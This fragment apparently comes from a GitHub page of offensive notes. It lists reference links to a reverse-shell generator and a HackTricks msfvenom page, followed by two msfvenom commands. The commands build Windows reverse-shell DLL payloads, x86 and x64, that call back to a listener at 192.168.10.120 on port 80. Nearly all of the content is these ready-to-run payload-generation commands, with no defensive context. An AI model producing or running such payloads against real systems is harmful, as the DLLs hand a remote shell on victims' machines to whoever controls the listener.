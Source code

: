 #### Reference resources

https://www.revshells.com/

https://book.hacktricks.xyz/shells/shells/msfvenom

x86
msfvenom -p windows/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80

x64
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o xxx.dll LHOST=192.168.10.120 LPORT=80
